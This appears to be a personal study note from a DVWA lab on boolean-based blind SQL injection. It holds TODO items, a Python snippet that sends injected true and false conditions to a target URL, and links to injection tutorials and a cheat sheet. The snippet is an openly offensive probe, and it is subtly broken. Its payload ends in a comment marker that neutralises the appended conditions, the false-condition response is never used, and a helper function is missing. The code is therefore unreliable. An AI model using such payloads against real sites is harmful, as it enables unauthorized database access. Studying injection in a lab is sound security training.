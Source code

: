 # Boolean-Based Blind Query SQL Injection

#blind-sql-injection #dvwa

TODO: Figure it out using a python script with a frequency analysis technique to bruteforce it faster.

This is just for reference but will be removed once the information is filled.

TODO: Write a python script to bruteforce queries in order to automate blind SQL injection

```python
# Check if the response contains a specific string when the condition is true
def boolean_based_blind_sql_injection(target_url, injection_payload):
    response_when_condition_true = send_request(target_url, injection_payload + " AND 1=1 --")
    response_when_condition_false = send_request(target_url, injection_payload + " AND 1=2 --")

    if "True Response String" in response_when_condition_true:
        return True  # The injected condition is true
    else:
        return False  # The injected condition is false

# Example usage
target_url = "https://example.com/vulnerable-page"
injection_payload = "1' OR 1=1 --"

result = boolean_based_blind_sql_injection(target_url, injection_payload)
print("Is the injected condition true?", result)
```

https://www.hackingarticles.in/beginner-guide-sql-injection-boolean-based-part-2/

https://securityidiots.com/Web-Pentest/SQL-Injection/Blind-SQL-Injection.html

https://resources.infosecinstitute.com/topics/application-security/blind-sql-injection/

https://c0deman.wordpress.com/2013/06/25/mssql-injection-cheat-sheet/